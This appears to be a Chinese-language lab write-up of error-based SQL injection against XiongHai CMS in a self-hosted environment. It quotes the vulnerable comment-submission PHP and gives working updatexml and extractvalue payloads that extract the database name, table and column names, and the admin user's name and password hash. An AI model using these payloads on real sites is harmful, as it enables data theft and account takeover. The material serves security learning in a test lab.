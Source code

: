 ```yaml
---
{"dg-publish":true,"title":"自建环境_SQL报错盲注测试","dg-path":"安全/靶场/自建环境_SQL报错盲注测试.md","permalink":"/安全/靶场/自建环境_SQL报错盲注测试/","dgPassFrontmatter":true}
---
```


# 环境介绍

利用的是熊海CMS


在 `files/submit.php` 提交评论的文件中，有这样的代码
```php
$query = "INSERT INTO interaction (  
type,  
xs,  
cid,  
name,  
mail,  
url,  
touxiang,  
shebei,  
ip,  
content,  
tz,  
date  
) VALUES (  
'$type',  
'$xs',  
'$cid',  
'$name',  
'$mail',  
'$url',  
'$touxiang',  
'$shebei',  
'$ip',  
'$content',  
'$tz',  
now()  
)";  
@mysql_query($query) or die('新增错误：'.mysql_error());
```

也就是接收评论的信息然后插入数据库，最重要的是后面有报错返回

# 进行注入

接下来尝试将昵称改为payload

```sql
' and updatexml(1,concat(0x7e,(SELECT version()),0x7e),1) and '
```
注意要闭合单引号


![Pasted image 20240801105510.png](/img/user/picture/Pasted%20image%2020240801105510.png)

发现确实可以注入


## 获取数据库名

```sql
' and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) and '
```
![Pasted image 20240801105955.png](/img/user/picture/Pasted%20image%2020240801105955.png)

## 获取表名

构建payload
```sql
' and updatexml(1,concat(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1),0x7e),1) and '

```
`LIMIT 0,1` 用于逐步获取表名。你可以从 `LIMIT 0,1` 开始，逐步增加偏移量来获取更多的表名，例如 `LIMIT 1,1`、`LIMIT 2,1` 等。
![Pasted image 20240801114453.png](/img/user/picture/Pasted%20image%2020240801114453.png)

## 获取列名

以表`manang`为例

```sql
' and updatexml(1,concat(0x7e,(SELECT column_name FROM information_schema.columns WHERE table_name='manage' LIMIT 0,1),0x7e),1) and '

```

![Pasted image 20240801115106.png](/img/user/picture/Pasted%20image%2020240801115106.png)

得到列名
id,user,name,password,img,mail



## 表中信息

```sql
' and updatexml(1,concat(0x7e,(SELECT name FROM seacms.manage WHERE id='1' LIMIT 0,1),0x7e),1) and '
```

![Pasted image 20240801115533.png](/img/user/picture/Pasted%20image%2020240801115533.png)

发现在显示密码的时候显示不全
```sql
' and extractvalue(1, concat(0x7e, (SELECT password FROM seacms.manage WHERE id='1' LIMIT 0,1), 0x7e)) and '
```